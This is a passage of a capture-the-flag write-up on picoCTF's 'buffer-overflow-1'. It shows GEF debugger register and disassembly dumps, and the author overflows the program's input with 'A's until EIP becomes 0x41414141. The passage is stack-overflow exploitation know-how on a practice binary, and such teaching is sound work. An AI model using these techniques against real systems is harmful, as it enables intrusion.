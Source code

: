<span style="color:#EC0101"><b>$ecx   </b></span>: <span style="color:#9755B3">0xffffd160</span>  →  0x00000001
<span style="color:#EC0101"><b>$edx   </b></span>: <span style="color:#9755B3">0xffffd194</span>  →  0x00000000
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd140</span>  →  <span style="color:#9755B3">0xffffd160</span>  →  0x00000001
<span style="color:#EC0101"><b>$ebp   </b></span>: <span style="color:#9755B3">0xffffd148</span>  →  0x00000000
<span style="color:#EC0101"><b>$esi   </b></span>: 0x1       
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80490e0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; endbr32 </b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: <span style="color:#D41919">0x80492d7</span>  →  <span style="color:#585858"><b>&lt;main+19&gt; sub esp, 0x10</b></span>
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
   <span style="color:#585858"><b> 0x80492d3 &lt;main+15&gt;        mov    ebp, esp</b></span>
   <span style="color:#585858"><b> 0x80492d5 &lt;main+17&gt;        push   ebx</b></span>
   <span style="color:#585858"><b> 0x80492d6 &lt;main+18&gt;        push   ecx</b></span>
 <span style="color:#5EBDAB">→  0x80492d7 &lt;main+19&gt;        sub    esp, 0x10</span>
    0x80492da &lt;main+22&gt;        call   0x8049130 &lt;__x86.get_pc_thunk.bx&gt;
    0x80492df &lt;main+27&gt;        add    ebx, 0x2d21
    0x80492e5 &lt;main+33&gt;        mov    eax, DWORD PTR [ebx-0x4]
    0x80492eb &lt;main+39&gt;        mov    eax, DWORD PTR [eax]
    0x80492ed &lt;main+41&gt;        push   0x0
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x80492d7</span> in <span style="color:#FF8A18"><b>main</b></span> (), reason: <span style="color:#962AC3"><b>BREAKPOINT</b></span>
{% endccb %}

Analyzing this breakpoint, if we look at the arrow on the assembly code, we can see that its address is the exact same as the `$eip` (`0x80492d7`). Let's try overflowing this register by passing an unhealthy amount of `A`s into the program:

{% ccb html:true terminal:true %}
<pre><span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x41414141</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: 0x41      
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$ecx   </b></span>: 0x41      
<span style="color:#EC0101"><b>$edx   </b></span>: 0xffffffff
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd130</span>  →  <span style="color:#FEA44C">"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"</span>
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$esi   </b></span>: 0x1       